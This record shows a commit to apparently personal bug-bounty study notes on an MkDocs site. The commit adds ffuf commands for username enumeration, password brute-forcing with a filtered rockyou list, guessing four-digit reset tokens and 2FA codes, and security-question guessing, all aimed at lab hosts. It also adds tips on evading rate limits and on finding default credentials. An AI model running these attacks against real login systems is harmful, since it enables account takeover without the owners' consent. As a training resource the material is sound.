

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/broken-authentication.md, in a window 1280 px wide and 1400 px high, scrolled down 206 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
start broken authentication page

````diff
--- a/docs/bug-bounty-guide/broken-authentication.md
+++ b/docs/bug-bounty-guide/broken-authentication.md
@@ -1,34 +1,60 @@
 # Broken Authentication
 
 ## Categories of Authentication
-- Knowledge: passwords, PINs, ...
-- Ownership: ID cards, TOTP
+
+- Knowledge: passwords, PINs, Answer to Security Question
+- Ownership: ID cards, TOTP, Authenticator App, Security Token
 - Inherence: Biometric authentication
 
 ## Brute-Force Attacks
+
 - User Enumeration
+```bash
+ffuf -w /opt/useful/seclists/Usernames/xato-net-10-million-usernames.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
+```
 - Brute-Forcing Passwords
-- Brute-Forcing Password Reset Tokens
-- Brute-Forcing 2FA Codes
+```bash
+grep '[[:upper:]]' /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
+ffuf -w ./custom_wordlist.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username or password"
+```
+- Brute-Forcing Password Reset Tokens (example based on weak 4 digit reset token sent via email)
+```bash
+seq -w 0 9999 > tokens.txt # -w pads numbers with prepending zeros
+ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"
+```
+- Brute-Forcing 2FA Codes (example based on weak 4 digit TOTP token)
+```bash
+seq -w 0 9999 > tokens.txt
+ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
+```
 
 ## Bypassing Brute-Force Protection
-- **Rate Limit**: X-Forwarded-For HTTP Header
+
+- **Rate Limit**: X-Forwarded-For HTTP Header can be randomised
 - **CAPTCHAs**: Look for CAPTCHA solution in HTML code
 
 ## Password Attacks
+
 - **Default Credentials**
-  - CIRT.net
-  - SecLists Default Credentials
-  - SCADA
+  - [CIRT.net](https://cirt.net/passwords/)
+  - SecLists Default Credentials (SecLists\Passwords\Default-Credentials\)
+  - [SCADA](https://github.com/scadastrangelove/SCADAPASS/tree/master)
 - **Vulnerable Password Reset**
-  - Guessable Security Questions
-  - Username Injection in Reset Request
+  - Guessable Security Questions (for example brute force [world cities](https://github.com/datasets/world-cities/blob/main/data/world-cities.csv))
+  ```bash
+  cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt # all world cities
+  cat world-cities.csv | grep Germany | cut -d ',' -f1 > german_cities.txt # just german cities
+  ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."
+  ```
+  - Username Injection in Password Reset Request (check post parameters in http request)
 
 ## Authentication Bypasses
+
 - Accessing the protected page directly
 - Manipulating HTTP Parameters to access protected pages
 
 ## Session Attacks
+
 - Brute-Forcing cookies with insufficient entropy
 - **Session Fixation**
   - Attacker obtains valid session identifier
````
Also changed, not shown: docs/bug-bounty-guide/attacking-web-applications-with-ffuf.md (+10 -0 lines).
